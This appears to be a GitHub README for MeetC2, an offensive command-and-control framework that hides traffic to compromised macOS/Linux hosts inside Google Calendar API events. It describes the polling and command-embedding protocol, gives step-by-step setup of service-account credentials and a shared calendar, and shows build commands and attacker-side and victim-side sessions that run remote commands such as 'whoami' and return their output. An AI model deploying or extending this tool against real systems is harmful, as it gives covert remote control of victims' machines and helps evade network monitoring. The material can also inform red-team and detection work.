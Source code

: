 ## MeetC2

A serverless command & control (C2) framework that leverages Google Calendar APIs, as a covert communication channel between operators and a compromised system.

### Overview

MeetC2 a cross-platfrom (macOS/Linux), that demonstrates how legitimate cloud services can be abused for adversarial operations. By using Google Calendar APIs, the framework creates a hidden communication channel that blends in with normal business traffic.

Domain's utlized here are "`oauth2.googleapis.com`" & "`www.googleapis.com`". Once authenticated, the agent enters a polling loop, sending GET requests every 30 seconds to "`www.googleapis.com/calendar/v3/calendars/{calendarId}/events`" to check for new calendar events containing commands. 

When the organizer wants to issue a new command they can `POST` a new event to the same Calendar API endpoint via "organizer" agent with the command embedded in the event's summary field, like "Meeting from nobody:". The "guest" agent identifies these command events during its regular polling which extracts and executes the command locally, then updates the same event via a `PUT` request to include the command output within the `[OUTPUT] [/OUTPUT]` parameter in the description field.

<p align="center">
<img alt="image" src="https://github.com/user-attachments/assets/c9dd3c71-b5e8-4170-a526-a08461c064fc" width="500"/>
</p>

### Google Calendar Setup

- Navigate to the URL [Google cloud console](https://console.cloud.google.com/?hl=en), sign in with your Google account. Select a project or create a new project.
- Navigate to "APIs & Services" → Click "Library", in the search box, look for `Google Calendar API` and click "ENABLED", will take 20-30 seconds to get it enabled in your project.
- Post this navigate to "APIs & Services" → "Credentials" and click "+ CREATE CREDENTIALS" at the top choose "Service account" fill in the required details i.e., Service account name: `calendar-invite`, Description: `Syncs calendar events` and continue. Skip the optional role/users and click "DONE".
- Now check your service account lists you should have a email like "`calendar-invite@your-project.iam.gserviceaccount.com`". Go to the "KEYS" section "ADD KEY" → "Create new key", choose the "JSON" format and download the "KEY". Rename the downloaded JSON file to `credentials.json` for later use.
- Navigate to the URL "`https://calendar.google.com`", on the left side find "Other calendars" → Click the "+" click on create new calender fill in the name/description. Post that, click on the 3 dots next to it → "Settings and sharing". Scroll down to "Integrate calendar", check for "Calendar ID" it should look like "`abc123xyz@group.calendar.google.com`".
- Final steps, under calendar settings, find "Share with specific people" click on "+ Add people", add the service account email from step 4 above (the one ending in `@your-project.iam.gserviceaccount.com`). Change the permission to "Make changes to events" and click "Send", and you are all set...

### YouTube

<div align="center">
  <a href="https://www.youtube.com/watch?v=YkKtQ3Ex8-Q" target="_blank">
    <img src="https://img.youtube.com/vi/YkKtQ3Ex8-Q/0.jpg" alt="Watch on YouTube" title="Watch on YouTube" width="560" />
  </a>
</div>

### Command Line

<b>Compile:</b>

```
./build-all.sh <credentials.json> <calendar_id>
```

<b>Attacker host:</b>
```
bash-3.2$ ./organizer credentials.json [REDACTED]@group.calendar.google.com
MeetC2 Organizer
Commands:
  exec <cmd>         - Execute on all hosts
  exec @host:<cmd>   - Execute on specific host
  exec @*:<cmd>      - Execute on all hosts (explicit)
  list               - List recent commands
  get <event_id>     - Get command output
  clear              - Clear executed events
  exit               - Exit organizer
----------------------------------------
> exec whoami
Command created for all hosts: qfj4tt8a4uoi8p7cd3b8t31337
> 
>
```

<b>Victim host:</b>

```
bash-3.2$ ./guest-darwin-arm64 
16:08:04 MeetC2 Guest started on dhiraj-mishra-[REDACTED]
16:08:04 Calendar ID: [REDACTED]@group.calendar.google.com
16:08:04 Polling every 10 seconds...
16:08:15 Executing command: whoami
16:08:16 Successfully updated event with output
```

<b>OpSec</b>: While this is functional, I know there are improvements in OpSec specifically for the "guest" binary.

<b>Acknowledgements</b>: This project was inspired by [GC2-sheet](https://github.com/looCiprian/GC2-sheet) author [looCiprian](https://github.com/looCiprian). Hence, special thanks to him!

